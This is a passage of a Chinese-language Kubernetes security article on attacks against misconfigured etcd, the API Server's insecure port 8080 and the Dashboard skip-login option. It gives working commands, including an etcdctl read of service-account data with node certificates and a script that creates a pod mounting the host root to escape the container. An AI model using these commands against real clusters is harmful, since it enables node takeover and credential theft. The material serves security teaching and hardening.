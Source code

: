 则网络可达的攻击者都能够直接与 Kubelet 进行交互，从而实现对其所在节点的控制。

#### [](#124-etcd)1.2.4 etcd

Kubernetes 集群内的各种资源及其状态均存储在 etcd 中。如果能够有办法读取 etcd 中的数据，就可能获取高权限，从而控制集群。

目前，etcd 启动后监听 2379 和 2380 两个端口，前者用于客户端连接，后者用于多个 etcd 实例之间的端对端通信。在多节点集群中，为了实现高可用，etcd 往往在节点 IP 上进行监听，已实现多节点的互通。

默认情况下，两个端口提供的服务都需要相应证书才能访问，并禁止匿名访问，来保证安全性。如果攻击者获取了证书，或者允许匿名访问，就可以直接获取 ectd 内的数据。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>etcdctl --endpoints https://localhost:2379 --cert /etc/kubernetes/pki/etcd/server.crt --key /etc/kubernetes/pki/etcd/server.key --cacert /etc/kubernetes/pki/etcd/ca.crt get /registry/serviceaccounts/kube-system/default -o json<br>``` |

## [](#2-k8s-%E7%BB%84%E4%BB%B6%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E7%9A%84%E6%94%BB%E5%87%BB%E6%A1%88%E4%BE%8B)2 k8s 组件配置不当的攻击案例

### [](#21-api-server-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE)2.1 API Server 未授权访问

默认情况下，API Server 能够在两个端口上对外提供服务：`8080` 和 `6443`，前者以 HTTP 提供服务，无认证和授权机制；后者以 HTTPS 提供服务，支持认证和授权服务。在较新版本的 Kubernetes 中，`8080` 端口的 HTTP 服务默认不启动。然而，如果用户在 `/etc/kubernets/manifests/kube-apiserver.yaml` 中将 `--insecure-port=0` 修改为 `--insecure-port=8080` ，并重启 API Server，那么攻击者只要网络可达，都能够通过此端口操控集群。

如远程列出目标机器上运行的 pod：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>kubectl -s $TARGETIP:8080 get pod<br>``` |

进一步创建挂载宿主机目录的 Pod 进行容器逃逸，获得宿主机权限，相关操作如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>``` | ```bash<br>#!/bin/bash<br><br>cat << EOF > escape.yaml<br># attacker.yaml<br>apiVersion: v1<br>kind: Pod<br>metadata:<br>  name: attacker<br>spec:<br>  containers:<br>  - name: ubuntu<br>    image: ubuntu:latest<br>    imagePullPolicy: IfNotPresent<br>    # Just spin & wait forever<br>    command: [ "/bin/bash", "-c", "--" ]<br>    args: [ "while true; do sleep 30; done;" ]<br>    volumeMounts:<br>    - name: escape-host<br>      mountPath: /host-escape-door<br>  volumes:<br>    - name: escape-host<br>      hostPath:<br>        path: /<br>EOF<br><br>kubectl -s TARGET-IP:8080 apply -f escape.yaml<br>sleep 8<br>kubectl -s TARGET-IP:8080 exec -it attacker /bin/bash<br>``` |

### [](#22-dashboard-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE)2.2 Dashboard 未授权访问

Kubernetes Dashboard 是一个基于 Web 的 Kubernetes 用户界面。借助 Dashboard，能够获得当前集群中应用运行状态的概览，创建或修改 Kubernetes 资源。

根据[官方文档](https://github.com/kubernetes/dashboard#install)，可以使用以下命令部署 Dashboard:

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>kubectl apply -f https://raw.githubusercontent.com/kubernetes/dashboard/v2.4.0/aio/deploy/recommended.yaml<br>``` |

Dashboard 需要配置 token 才能够访问，但是提供了「跳过」选项。从 1.10.1 版本起，Dashboard 默认禁用了「跳过」按钮。然而，如果用户在运行 Dashboard 时添加了 `--enable-skip-login`，那么攻击者只要网络可达，就能进入 Dashboard：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202112011541799.png-water_print](assets/1699410706-e40517ea476e0797b7638928c4a27244 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202112011541799.png-water_print")
